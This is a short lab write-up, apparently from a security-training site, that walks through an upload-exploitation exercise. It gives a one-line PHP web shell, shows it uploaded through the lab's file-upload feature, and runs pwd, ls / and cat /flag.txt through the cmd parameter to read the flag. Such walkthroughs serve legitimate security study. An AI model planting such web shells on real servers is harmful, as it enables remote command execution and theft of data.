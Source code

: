 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

This lab consists in obtaining a web shell access through the web application. There may be multiple ways to this, so I'll just how I did it.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First create a simple custom web shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Access the web application and upload the web shell.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the file has been uploaded, click on `Download File` and you will be redirected to this page. We are currently accessing the file we just uploaded. Since the function is expecting a command we have to write the `cmd` parameter.

```bash
?cmd=pwd
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since we passed the `pwd` command, we got the output that we were expecing. So we can confirm we got a web shell access.

Now all we have to do is search for the flag, which in this case is in the root directory.

```bash
?cmd=ls /
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here it is! Now let's see the content of the flag:

```
?cmd=cat /flag.txt
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got it!
